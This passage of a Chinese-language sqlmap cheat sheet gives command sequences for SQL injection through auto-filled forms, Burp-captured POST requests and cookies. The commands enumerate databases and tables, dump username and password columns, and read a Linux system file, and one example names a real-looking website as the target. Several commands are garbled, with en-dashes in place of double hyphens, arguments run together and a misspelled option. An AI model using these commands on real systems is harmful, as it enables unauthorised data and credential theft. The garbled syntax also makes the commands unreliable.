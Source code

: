 自动填写表单：

> sqlmap.py -u URL –forms
>
> sqlmap.py -u URL –forms –dbs
>
> sqlmap.py -u URL –forms –current-db
>
> sqlmap.py -u URL –forms -D 数据库名称–tables
>
> sqlmap.py -u URL –forms -D 数据库名称 -T 表名 –columns
>
> sqlmap.py -u URL –forms -D 数据库名称 -T 表名 -Cusername，password –dump

### 12.读取linux下文件

 sqlmap.py-u “url” –file /etc/password

### 13.延时注入

sqlmap.py -u URL –technique -T–current-user

### 14. sqlmap 结合burpsuite进行post注入

结合burpsuite来使用sqlmap：

（1）浏览器打开目标地址[http://www.antian365.com](http://www.antian365.com/)

（2）配置burp代理(127.0.0.1:8080)以拦截请求

（3）点击登录表单的submit按钮

（4）Burp会拦截到了我们的登录POST请求

（5）把这个post请求复制为txt, 我这命名为post.txt 然后把它放至sqlmap目录下

（6）运行sqlmap并使用如下命令：

```
./sqlmap.py -r post.txt -p tfUPass
```

### 15.sqlmap cookies注入

sqlmap.py -u “http://127.0.0.1/base.PHP“–cookies “id=1″ –dbs –level 2

默认情况下SQLMAP只支持GET/POST参数的注入测试，但是当使用–level 参数且数值>=2的时候也会检查cookie里面的参数，当>=3的时候将检查User-agent和Referer。可以通过burpsuite等工具获取当前的cookie值，然后进行注入：



```
sqlmap.py -u 注入点URL --cookie"id=xx" --level 3sqlmap.py -u url --cookie "id=xx"--level 3 --tables(猜表名)sqlmap.py -u url --cookie "id=xx"--level 3 -T 表名 --coiumnssqlmap.py -u url --cookie "id=xx"--level 3 -T 表名 -C username，password --dump
```


